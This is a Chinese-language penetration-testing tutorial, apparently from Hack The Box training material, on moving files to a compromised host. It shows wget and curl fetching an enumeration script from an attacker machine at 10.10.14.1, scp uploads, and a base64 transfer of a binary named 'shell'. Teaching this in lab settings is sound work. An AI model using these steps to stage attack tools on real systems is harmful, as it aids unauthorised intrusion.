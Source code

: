 ```yaml
---
title: 文件传输 File Transferring
---
```

# 文件传输

---

在任何渗透测试过程中，我们很可能需要将文件传输到远程服务器，例如枚举脚本或利用工具，或将数据传输回我们的攻击主机。虽然像Metasploit与Meterpreter shell这样的工具允许我们使用 `Upload` 命令上传文件，但我们需要学习使用标准反向 shell 进行文件传输的方法。

---

## 使用 wget

有许多方法可以实现这一点。其中一种方法是在我们的机器上运行一个 [Python HTTP 服务器](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server)，然后使用 `wget` 或 `cURL` 在远程主机上下载文件。首先，我们进入包含需要传输的文件的目录，并在其中运行一个 Python HTTP 服务器：

```Plaintext
jw0610a@htb[/htb]$ cd /tmp
jw0610a@htb[/htb]$ python3 -m http.server 8000

正在监听 0.0.0.0 的端口 8000 (http://0.0.0.0:8000/) ...
```

现在我们在我们的机器上设置了一个监听服务器，我们可以在具有代码执行权限的远程主机上下载文件：

```Plaintext
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
正在保存至: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 已保存 'linenum.sh' [14337/14337]
```

请注意，我们使用了我们的 IP 地址 `10.10.14.1` 和我们的 Python 服务器运行的端口 `8000`。如果远程服务器没有安装 `wget`，我们可以使用 `cURL` 来下载文件：

```Plaintext
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

请注意，我们使用了 `-o` 标志来指定输出文件名。

---

## 使用 SCP

另一种传输文件的方法是使用 `scp`，前提是我们已经在远程主机上获得了 SSH 用户凭据。我们可以按如下方式执行：

```Plaintext
jw0610a@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

请注意，在 `scp` 后面指定了本地文件名，并且在 `:` 后面指定了远程目录。

---

## 使用 Base64

在某些情况下，我们可能无法传输文件。例如，远程主机可能有防火

墙保护，阻止我们从我们的机器上下载文件。在这种情况下，我们可以使用一个简单的技巧，将文件以 [base64](https://linux.die.net/man/1/base64) 格式进行编码，然后将 `base64` 字符串粘贴到远程服务器上进行解码。例如，如果我们想要传输一个名为 `shell` 的二进制文件，我们可以按以下方式对其进行 `base64` 编码：

```Plaintext
jw0610a@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

现在，我们可以复制这个 `base64` 字符串，进入远程主机，并使用 `base64 -d` 进行解码，然后将输出导入到一个文件中：

```Plaintext
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

---

## 验证文件传输

为了验证文件的格式，我们可以对其运行 [file](https://linux.die.net/man/1/file) 命令：

```Plaintext
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

正如我们所看到的，当我们在 `shell` 文件上运行 `file` 命令时，它显示它是一个 ELF 二进制文件，这意味着我们成功地传输了它。为了确保我们在编码/解码过程中没有损坏文件，我们可以检查其 MD5 哈希值。在我们的机器上，我们可以对其运行 `md5sum`：

```Plaintext
jw0610a@htb[/htb]$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

现在，我们可以转到远程服务器并对我们传输的文件运行相同的命令：

```Plaintext
user@remotehost$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

正如我们所看到的，两个文件具有相同的 MD5 哈希值，这意味着文件已正确传输。还有其他各种传输文件的方法。您可以查看 [File Transfers](https://academy.hackthebox.com/module/details/24) 模块，以获取更详细的文件传输学习。